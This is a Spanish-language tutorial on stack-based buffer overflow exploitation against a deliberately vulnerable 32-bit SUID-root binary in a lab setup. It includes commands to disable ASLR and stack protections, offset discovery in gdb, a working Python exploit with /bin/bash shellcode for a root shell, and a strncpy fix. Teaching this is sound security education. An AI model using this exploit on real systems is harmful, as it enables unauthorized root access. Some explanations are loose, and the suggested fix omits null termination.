> [!CAUTION]
> Contenido con fines educativos. Practica solo en sistemas propios o con autorización expresa por escrito.

## ¿Qué es Stack Based?

Stack based es una técnica de explotación que realiza un Buffer Overflow a un binario. Esta técnica se centra en manipular la pila de ejecución de un programa para redirigir el flujo hacia un codigo malicioso inyectado.

## Situación de Stack based

En la situación que viene a continuación se va abusar un binario de 32 bits en una máquina de x86 y que tiene el `ASLR desactivado`.

### ¿Qué es el ASLR??

El ASLR es una técnica de seguridad cuya función consiste en aleatorizar la ubicación de las áreas clave de la memoria de un programa en ejecución. Por lo tanto para el ataque de Stack based sin ASLR debe de estar desactivado.

Para desactivarlo en nuestra máquina de 32 bits simplemente debemos de ejecutar el siguiente comando como **root**

```shell
echo 0 > /proc/sys/kernel/randomize_va_space
```

El resultado de dicha comando dará lugar a que no aleatoriza las direcciones de la memoria que es algo fundamental para que el Stack based sin ASLR funcione.



Si nos fijamos bien en la segunda línea del output contiene la dirección de memoria de libc y comprobamos que es la misma en cada ejecución: `0xb7e08000`.

## Funcionamiento del programa vulnerable



Este sería el codigo correspondiente al binario compilado al que se va a explotar un buffer overflow a través de la técnica de stack based.

Si quieres realizar las mismas pruebas que se van a realizar en este post. Para poder compilar el binario en cuestión debes ejecutar el siguiente comando.

```shell
gcc -z execstack -g -fno-stack-protector -mpreferred-stack-boundary=2 file.c -o fileVuln
```

Para empezar debemos de tener en cuenta el funcionamiento del flujo del programa. En este caso al ver el código podemos observar que esta esperando datos que se adjuntan como argumento en donde lo que hace es copiar lo que le pasamos como argumento a una variable en la memoria llamada `buffer` con la función `strcpy`

> [!CAUTION]
> La función `strcpy` es insegura en C/C++.

Lo que ocurre con la función de strcpy es que no realiza verificaciones sobre el tamaño de los buffers y puede llevar a buffer overflow como se podrá ver a lo largo del post.

Para hacerlo algo mas elaborado vamos a asignarle el permiso SUID al binario y como propietario y grupo le añadiremos como root.

```shell
chown root:root fileVuln
chmod u+s fileVuln
```

Una vez hecho esto a la hora de ejecutar el binario con nuestro usuario test, estaremos ejecutando el binario como el usuario root.

## Detección de Buffer Overflow

Esto sería un ejemplo de como funciona el programa de manera técnica la ejecución del binario



En la primera linea de comandos lo que ha ocurrido es que en la variable buffer la cual tiene de tamaño 64 bytes, está almacenando la letra que le estamos pasando como argumento en este caso la letra **"A"**.

Lo que está ocurriendo en la segunda línea es que al tener **64 bytes** para almacenar en la variable `buffer`, se esta intentando almacenar más de lo se ha definido en esa variable, por lo tanto cuando llega a la funcion `strcpy` intenta copiar muchos bytes a la variable `buffer`, por tanto el flujo del programa corrompe debido a exceso de buffer.

Uno de los pasos previos de cuando tenemos un binario y no sabemos como actúa podemos ejecutar los siguientes comandos para obtener más información acerca del binario y saber como explotarlo.

```shell
gef➤  checksec 
[+] checksec for '/home/thespartoos/Desktop/fileVuln'
Canary                        : ✘ 
NX                            : ✘ 
PIE                           : ✓ 
Fortify                       : ✘ 
RelRO                         : Full
```

Como podemos ver el reflejo del comando checksec desde el menu de gdb nos permite ver que no tiene el `DEP (Data execution prevention)` activado, es el apartado de **NX**, por lo tanto podemos ejecutar codigo malicioso directamente en la pila (esp).

## Explotación de Stack Based

Para esta parte será necesario entender como funciona el flujo del programa cuando se excede el buffer.

Cuando estamos pasando las **"A"** como argumento, lo que ocurre es que se están sobrescribiendo **algunos** de los registros:

> [!WARNING]
> Estos registros son en máquinas de 32 bits (x86).

1. ESP: Apunta al tope de la pila y se utiliza para agregar y eliminar datos de la pila.
2. EBP: Gestiona las funciones y procedimientos de la pila.
3. EIP: Contiene la siguiente dirección de la memoria a la cual seguirá el flujo del programa.

Esto es un ejemplo a nivel visual de como funciona el flujo del programa cuando corrompe.



Es importante tener en cuenta esto tres registros ya que debemos de estar pendientes para posteriormente ejecutar la técnica de Stack based correctamente.

Empieza por el ESP y continua sobrescribiendo el resto de registros mencionados anteriormente.

Para poder ver como se estan registrando esos registros existe **gdb**, que para quien no lo sepa nos permite analizar el binario a bajo nivel viendo como funciona el flujo del programa.

El primer paso que debemos de seguir es calcular el numero de exacto de bytes que debemos pasar hasta que llegamos a controlar el registro EIP.

```shell
gdb ./fileVuln
# Una vez dentro de gdb
r $(python3 -c 'print("A"*100)')
```

Dado los comandos anteriores dará como resultado lo siguiente.



Como podemos observar los registros de (ESP, EBP y EIP) están sobrescritos por nuestras **"A"**, por lo tanto en lo primero que nos tenemos que fijar es en `EIP` podemos observar que apunta a la dirección de ***0x41414141*** que como nos lo indica a su derecha son nuestras **"A"**

### Descubrir el offset

De las primeras cosas que debemos de averiguar para poder explotar el Stack based es conocer el numero de bytes exactos para controlar el registro de EIP. Para ello podemos hacerlo de manera manual pero utilizando [**gdb-peda**](https://github.com/longld/peda).



Lo que acabamos de realizar es generar un patrón por peda que posteriormente nos permitirá conocer el valor exacto de bytes que debemos de enviar para poder controlar exactamente el EIP.

Volvemos a ejecutar el gdb con el binario y ejecutamos el siguiente comando.

```shell
gdb ./fileVuln
# Una vez dentro de gdb
r 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
```

una vez ejecutado podremos saber el `offset` **(cantidad de bytes)** exacto para poder manipular el EIP.



Exactamente son 68 bytes que debemos de enviar para controlar el EIP. Para poder saber si es la cantidad exacta podemos comprobarlo de manera manual de manera rápida.

```shell
gdb ./fileVuln
# Una vez dentro de gdb
r $(python3 -c 'print("A"*68 + "B"*4)')
```

La dirección a la que debería de apuntar EIP es ***0x42424242*** correspondiente a nuestras **"B"**.



### Plan de ataque de EIP

Para llevar acabo nuestro plan de explotacion debemos de conocer los siguientes factores necesarios:

+ [x] Offset ( cantidad de bytes justo antes de `EIP` ).
+ [ ] Elegir una dirección de memoria de ESP donde se encuentren nuestros `NOPS`.
+ [ ] Generar shellcode.
+ [ ] Programar el exploit ( en este caso Python ).

NOPS
: Es una instrucción en lenguaje ensamblador que no hace nada (no operation code).

Para poder elegir una dirección ESP con NOPS debemos de realizar el siguiente operación.

```shell
gdb ./fileVuln
# Una vez dentro de gdb
r $(python3 -c 'print("A"*100 + "B"*4 + "\x90"*100)')
```

Lo que está ocurriendo es que estamos sobrescribiendo el ESP con los nops `"\x90"*100` por lo tanto podremos elegir una dirección entre las que sobrescribimos en el ESP.



> [!NOTE]
> La dirección de la memoria escogida es **0xbfffef10**.

En este caso elegimos una dirección de la memoria entre la mitad en donde deberemos guardarla para posteriormente hacer que el EIP apunte hacia esa dirección de memoria en donde en esa dirección se encontrará nuestros NOPS para que mientras el flujo del programa se recorre los NOPS le da tiempo a que nuestro shellcode se coloque en memoria completo y pueda ser ejecutado correctamente.

### Programando el exploit

`La planificación es la siguiente: offset + direccion EIP + nops + shellcode`

Es simplemente tener en mente esos pasos. Para que se vea mas claro vamos a programarlo en codigo (Python).

Antes que nada lo único que nos falta es generar el `shellcode` de x32 bits que ejecute una `/bin/bash -p`. Podemos genererar nuestro propio shellcode a través de herramientas como msfvenom o nivel manual o podemos coger shellcodes ya generados que ejecuten lo anteriormente mencionado. Este [**shellcode**](https://shell-storm.org/shellcode/files/shellcode-606.html) es compatible.

El exploit en python sería este.

```python
#!/usr/bin/python2
# ESTA EN PYTHON2

from struct import pack

if __name__ == '__main__':

	# junk + EIP + nops + shellcode

	offset = 68
	junk = "A"*offset
	EIP = pack("<I", 0xbfffef10)
	nops = "\x90"*200
	shellcode="\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"

	payload = junk + EIP + nops + shellcode

	print payload
```

## Explotación

Para poder desplegar el ataque simplemente debemos de ejecutar lo siguiente y al ser el binario SUID y propietario root cuando se ejecute el shellcode nos ejecutará una shell como root.



## Recommendation

Evitar las funciones inseguras como strcpy y en su lugar reemplazarla por la función strncpy añadiendolo en el código tal que así.

```c
#include <stdio.h>

void notvulnerable(char *buff) {
    char buffer[64];
    strncpy(buffer, buff, sizeof(buffer));
}

void main (int argc, char **argv) {
    notvulnerable(argv[1]);
}
```

Como podemos ver en la linea hemos sustituido la función insegura de `strcpy` por la de **strncpy** en donde dicha función comprobará antes la longitud de lo que desea copiar con el buffer de la memoria a donde lo va a copiar y el flujo del programa no corrompe.



## Conclusión

Si has llegado hasta aquí muchas gracias por haber leido este post y que hayas comprendido el funcionamiento de este ataque y a bajo nivel. En el caso de que no lo hayas podido entender bien te recomiendo volver a leerlo con más calma e incluso poniendo en práctica tú mismo lo que se esta intentando enseñar en este post.
